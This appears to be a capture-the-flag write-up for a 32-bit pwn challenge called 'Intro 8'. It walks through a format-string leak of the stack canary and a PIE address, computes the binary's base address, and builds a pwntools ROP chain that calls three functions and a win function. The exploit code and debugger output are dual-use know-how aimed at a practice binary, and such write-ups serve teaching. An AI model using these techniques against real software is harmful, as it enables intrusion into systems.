




# Intro 8

32 bit full securities 

```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

The new part of this challenge is that we have multiple functions



Each function takes parameter



and the final win function that we want to call makes sure all those functions have had the correct parameter 



Okay. So its full securities so first we need to bypass the stack canary.

Using the same fuzz script as before and looking for the "00" ending

```Offset 19 has b'0xba86f700'``` after multiple runs 19 is ending in 00.

Once again You can check this in GDB

```
pwndbg> canary
AT_RANDOM = 0xffb2520b # points to (not masked) global canary value
Canary    = 0x7f2fa300 (may be incorrect on != glibc)
```

in my script 
```
io.sendline(b'%19$p %3$p')
leaks = io.recv().strip().split(b'?',1)[1]
canary = int(leaks,16)
success(f"leaked canary {hex(canary)}")
```

```
[+] leaked canary 0x7f2fa300
```

Now that we can leak the canary we can jump to any address, but because PIE is enabled we still need to leak an address and get the base address from that.

looking at the output from fuzz.py

offset 3 looked promising ```Offset 3 has b'0x565573b5'```

```
pwndbg> x/s 0x565563b5
0x565563b5 <vuln+16>:	"\201\303\003,"
```

The leak is "vuln+16"

Another way I've used to get the base address is using the "libs" command


```
0x56555000 0x56556000 r--p     1000 0      /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56556000 0x56557000 r-xp     1000 1000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56557000 0x56558000 r--p     1000 2000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56558000 0x56559000 r--p     1000 2000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0x56559000 0x5655a000 rw-p     1000 3000   /home/im12th/ctf/bluehens/pwn/intro8/pwnme
0xf7db9000 0xf7dd2000 r--p    19000 0      /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7dd2000 0xf7f27000 r-xp   155000 19000  /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f27000 0xf7f9b000 r--p    74000 16e000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9b000 0xf7f9c000 ---p     1000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9c000 0xf7f9e000 r--p     2000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9e000 0xf7f9f000 rw-p     1000 1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f9f000 0xf7fa2000 rw-p     3000 0      [anon_f7f9f]
0xf7fca000 0xf7fcc000 rw-p     2000 0      [anon_f7fca]
0xf7fcc000 0xf7fd0000 r--p     4000 0      [vvar]
0xf7fd0000 0xf7fd2000 r-xp     2000 0      [vdso]
0xf7fd2000 0xf7fd3000 r--p     1000 0      /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7fd3000 0xf7ff0000 r-xp    1d000 1000   /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ff0000 0xf7ffb000 r--p     b000 1e000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r--p     1000 29000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rw-p     1000 2a000  /usr/lib/i386-linux-gnu/ld-2.31.so
```

The top left address is the base address

```
pwndbg> x/s 0x56555000
0x56555000:	"\177ELF\001\001\001"
```

0x565563b5 - 0x56555000
leak - base = 0x13b5

So we can get the leak by taking "0x13b5" from the leak.

Updating the base address for pwntools ROP function lets us call the 3 functions and the win function easily 

```
# Rop chain:
rop.func1(0x1337)
rop.func2(0xcafef00d)
rop.func3(0xd00df00d)
rop.win()
payload += rop.chain()
io.sendline(payload)
```


